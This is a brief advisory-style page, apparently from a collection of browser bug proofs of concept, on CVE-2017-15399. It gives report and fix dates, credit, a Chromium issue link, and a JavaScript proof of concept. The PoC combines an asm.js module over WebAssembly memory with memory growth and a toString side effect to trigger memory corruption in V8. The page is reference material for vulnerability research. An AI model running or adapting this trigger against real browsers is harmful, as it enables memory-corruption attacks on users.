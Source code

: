 # CVE-2017-15399

- Report: Oct 2017
- Fix: Oct 2017
- Credit: Zhao Qixun of Qihoo 360 Vulcan Team

## PoC

```javascript
function module(stdlib,foreign,buffer) {
  "use asm";
  var fl = new stdlib.Uint32Array(buffer);
  function f1(x) {
    x = x | 0;
    fl[0] = x;
    fl[0x10000] = x;
    fl[0x100000] = x;
  }
  return f1;
}

var global = {Uint32Array:Uint32Array};
var env = {};
memory = new WebAssembly.Memory({initial:200});
var buffer = memory.buffer;
evil_f = module(global,env,buffer);

zz = {};
zz.toString = function() {
  Array.prototype.slice.call([]);
  return 0xffffffff;
}
evil_f(3);
memory.grow(1);
evil_f(zz);
```

## Reference

- [Issue](https://crbug.com/776677)
